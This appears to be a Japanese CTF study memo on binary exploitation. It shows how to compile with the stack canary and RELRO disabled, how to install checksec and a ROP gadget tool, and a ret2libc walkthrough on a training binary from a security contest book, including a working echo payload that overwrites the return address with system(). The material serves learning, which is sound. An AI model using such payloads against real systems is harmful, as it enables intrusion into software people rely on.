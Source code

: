 また、実行ファイルコンパイル時は、セキュリティオプションを外す。
``` bash
$ gcc bof.c -fno-stack-protector 
(canaryを無効)
```
RELROの無効化
``` bash
$ gcc fsb.c -z norelro
```

### checksec.sh ###
``` bash
cd ~/Download/
$wget https://github.com/slimm609/checksec.sh/archive/1.6.tar.gz
$tar zxvf 1.6.tar.gz
$cp checksec.sh-1.6/checksec $HOME/bin/checksec.sh
```

___
## pwn手法 ##
## ret2libc ###

セキュリティコンテストチャレンジブックのbof3を使った  
buffer変数の領域を超えてスタックを破壊し、関数のリターンアドレスにコマンドを実行させる。


```
buffer
```
```
<buffer変数のスタック領域>
<関数のリターンアドレス> => $eip
```
この状態からbuffer変数を溢れさせる
↓

アドレス|入力値|改ざん後
:-:|:-|:-
buffer変数のスタック|AAAA|何かしらの処理aアドレスでsystem関数に呼ばれるbuffer変数
関数のリターンアドレス|0xb7e19200 (system)|system関数が呼ばれる
何かしらの処理a|BBBB(ダミー)|system関数のリターンアドレス
何かしらの処理b|0x0804a060(buffer変数のアドレス)|system関数の引数として渡される

↓
```
$echo -e '/bin/sh -c ls #AAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x92\xe1\xb7BBBB\x60\xa0\x04\x08'|./bof3
```

### VM ###
Mintのネットワークを固定にするとwifiのみに接続した時、切れてしまう。

### ropgagdet ###
```
wget https://github.com/downloads/0vercl0k/rp/rp-lin-x86
```

### x64のエンディアン ###
* 64bit単位でエンディアンがかかる。  

```
0000000000401800 <printf@plt>:
```
↓
```
\x00\x18\x40\x00\x00\x00\x00\x00,
```
